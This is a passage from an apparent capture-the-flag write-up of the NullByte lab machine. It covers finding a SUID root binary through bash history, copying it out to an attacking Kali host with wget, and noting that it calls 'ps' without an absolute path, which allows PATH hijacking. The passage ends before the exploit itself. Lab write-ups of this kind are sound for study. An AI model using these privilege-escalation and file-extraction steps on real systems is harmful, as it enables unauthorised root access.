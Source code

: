 Listing the history I found the path to a file that ramses was running previously.

```console
ramses@NullByte:~$ cat .bash_history 
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
```

This is a binary SUID with root permissions that runs the **ps** command.

```console
ramses@NullByte:~$ cd /var/www/backup/
ramses@NullByte:/var/www/backup$ ls -la
total 20
drwxrwxrwx 2 root root 4096 Aug  2  2015 .
drwxr-xr-x 4 root root 4096 Aug  2  2015 ..
-rwsr-xr-x 1 root root 4932 Aug  2  2015 procwatch
-rw-r--r-- 1 root root   28 Aug  2  2015 readme.txt
ramses@NullByte:/var/www/backup$ file procwatch 
procwatch: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=17d666a0c940726b29feedde855535fb21cb160c, not stripped
ramses@NullByte:/var/www/backup$ ./procwatch 
  PID TTY          TIME CMD
 1729 pts/0    00:00:00 procwatch
 1730 pts/0    00:00:00 sh
 1731 pts/0    00:00:00 ps
```

Then I transfer the binary file to the attacking machine to analyze it.

```console
ramses@NullByte:/var/www/backup$ cp procwatch ../html/uploads/

root@kali:~$ wget 192.168.179.152/uploads/procwatch
```

With cutter I analyzed the binary file, this is a reverse engineering tool, you can download it [here](https://cutter.re/), in the following image we can see that the command **ps** (is in little endian) is being executed without the absolute path, so we can hijack the path.
